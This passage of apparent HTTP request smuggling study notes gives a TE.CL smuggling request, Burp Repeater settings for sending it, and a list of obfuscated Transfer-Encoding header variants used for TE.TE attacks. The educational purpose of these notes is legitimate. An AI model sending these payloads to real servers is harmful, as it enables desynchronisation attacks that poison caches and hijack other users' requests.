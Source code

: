 ```
POST / HTTP/1.1
Host: vuln-web.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0

```

### Note

```
- To send this request using Burp Repeater, you will first need to go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.
- You need to include the trailing sequence `\\r\\n\\r\\n` following the final `0`. this means press enter key 2 times after writing 0

```

- the front-end process `transfer-encoding` and treats the message body using `chunked encoding`,which is 8 byte long up to `smuggled` after that it terminates the request due to `zero chunk`
- back-end process `Content-length`which is 3 bytes and consider message body up to `8` and rest of is like new request.

## TE.TE Behavior: Obfuscating TE header

- front-end and back-end supports `Transfer-Encoder` header, but one of the servers can be induced not to `obfuscating` the header in some way
there is many ways to `obfuscate` the `Transfer-Encoding` header
`example:`

```
Transfer-Emcoding: xchunked

Transfer-Encoding: chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding: [tab]chunked

[space]Transfer-Encoding: chunked

X; X[\\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked

```

To uncover a TE.TE vulnerability, it is necessary to find some variation of the `Transfer-Encoding` header such that only one of the front-end or back-end servers processes it, while the other server ignores it.

